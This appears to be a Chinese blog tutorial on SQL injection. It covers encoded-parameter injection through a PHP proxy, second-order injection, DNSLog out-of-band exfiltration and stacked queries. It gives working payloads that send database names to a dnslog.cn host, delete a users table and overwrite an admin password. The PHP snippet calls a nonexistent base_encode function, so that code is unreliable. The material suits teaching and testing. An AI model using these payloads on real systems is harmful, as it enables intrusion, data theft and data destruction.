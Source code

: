 ```yaml
---
title: "二次，加解密，DNS等SQL注入" # 文章标题.
date: 2022-10-30
draft: false
tags: ["WEB安全"]
categories: ["WEB安全"]
---
```


# 二次，加解密，DNS，堆叠等SQL注入

## 加解密

一般情况下，有些网站会在接受参数的时候，会对参数进行编码处理，在我们注入的时候我们就需要对参数进行相应的编码，然后在提交进行注入。这种就是加解密注入。

一般情况下编码中含有`==`的就是`base64`编码，`%3D`在`base64`中是`=`

加解密注入的时候，可以结合延时注入，报错注入，布尔注入，等操作进行注入。

### 使用代理的方式

因为在注入网站的时候需要使用到加解密，我们一个一个的去写相应的编码过于麻烦，我们就可以使用一种方法，这种方式就是使用相应代理（也就是爬虫的方式）进行数据的传递。

原理：

我们传递一个普通的数据，在进行我们网站的转换，将我们传递的普通数据，转换为一个相应编码的数据，进行相应数据库的注入。

对于PHP来说可以使用：`file_get_contents()`这个函数，将一个文件读取到一个字符串中。

```php
<?php
	$url = "https://www.mypage.com/job/mytest.php?id=";
	$payload = base_encode($_GET['x']);
	$urls = $url.$payload;
	file_get_contents($urls);
?>
```

对于python来说可以使用requests这个库，也可以实现相应的功能。

## 二次注入

注：二次注入，一般情况下是黑盒测试（无法进行测试）无法通过工具或者手工注入去挖掘相应的漏洞的，你需要拿到网站的源代码（进行代码审计），然后才可以进行注入。

![二次注入](./二次注入.jpg)

总结：先写一个注入语句到数据库中，然后在去执行这个数据

为什么说二次注入无法通过黑盒挖掘：

因为你不知道要插入的数据是什么，就算你知道要插入的数据是什么，也不知道如何使用这个数据，所以你只能去进行代码审计去挖掘这种漏洞。无法去猜，无法去爆破。

举例：

```mysql
update users SET password='$pass' where username='$username' and password='$curr_pass';
```

对于这个update语句，如果你在注册的时候`username`写的是`admin'#`种的，我们就可以在执行这个update语句的时候实现二次注入，

```mysql
update users set password='$pass' where username='$username'#' and password='$curr_pass';
# 后面的是注释语句，就修改了admin这个用户的密码，从而实现二次注入。
```

## DNSLog注入

这个注入不常用，这个漏洞需要高权限，需要有文件读写的高权限，因为后面你写的文件不一定能够上传，就选上传了，也不一定可以使用。

DNSLog的核心就是使用文件读取的函数：`load_file`，这个函数可以读取本地服务器的文件，也可以访问互联网的文件，但是在使用load_file函数访问互联网的文件的时候需要在前面加上`//`，注意是**访问文件**，不是访问目录。这个文件存不存在没有关系，在访问这个记录的时候，DNS会帮我们记录访问的url。这样就记录了我们的访问信息。其中就由我们要的数据。

但是这个方法是由局限性的，因为url中传递的内容是由长度的，而且有些字符不能够进行传输，eg:`{,}!`这就会导致我们的`load_file`失效，如何解决呢？

我们可以使用十六进制进行解决，通过对select语句的结果进行hex编码，就可以得到我们想要的结果。然后在对得到的十六进制进行解码。

```mysql
select * from users where id = 1 and if((select load_file(concat('\\\\',(
select hex(database())),'.hhsztj.dnslog.cn\\1.txt'))),1,0);
```

![16进制DNSLog](./16进制DNSLog.png)

在使用`load_file`函数的时候，其中可以使用`concat`函数对相应的字符串进行拼接。

```mysql
select * from users where id = 1 and if((select load_file(concat('\\\\',(
select database()),'.hhsztj.dnslog.cn\\1.txt'))),1,0);

select * from users where id = 1 and if((select load_file(concat('//',(
select database()),'.hhsztj.dnslog.cn/1.txt'))),1,0);
```

![DNSLog截图](./DNSLog截图.png)

###### 分享两个DNSLog的平台

http://dnslog.cn/ # 公共DNS免费平台

http://ceye.io/ # 404的DNS平台

https://github.com/ADOOO/DnslogSqlinj # 这是一个专门针对于DNSLog而写的工具。

## 堆叠注入

堆叠注入是分数据库的，MySQL中有堆叠注入。有一些数据库不能够实现堆叠注入，eg：MSSQL。

```mysql
select * from users;select username from users;
```

因为在MySQL中一个`;`决定了一个数据的结束，所以使用`;`可以执行多个数据库语句。

我们可以看到这个与union injection(联合注入)有一点相似，但是两者之间有什么区别呢？

区别在于`union`或者`union all`执行的语句是有限的，而且必须是查询语句，但是堆叠查询是可以执行任意语句的。

```mysql
select * from users where id = 1;delete from users;
# 这个就是堆叠，第一条显示查询信息，第二条则是删除整个表
```

堆叠注入是由一定的局限性的，是需要知道一些数据库的相关信息的，例如：表名，列名等信息。

堆叠注入的应用：

当注入需要管理员账号密码，密码是加密的，无法解密。

堆叠注入进行插入数据，用户名密码自定义的，可以正常解密登录。就不需要考虑相应的账号密码了。

```mysql
select * from users where id = 15;update users set password = 'rootadmin' where id = 15; #'' limit 0,1;
```

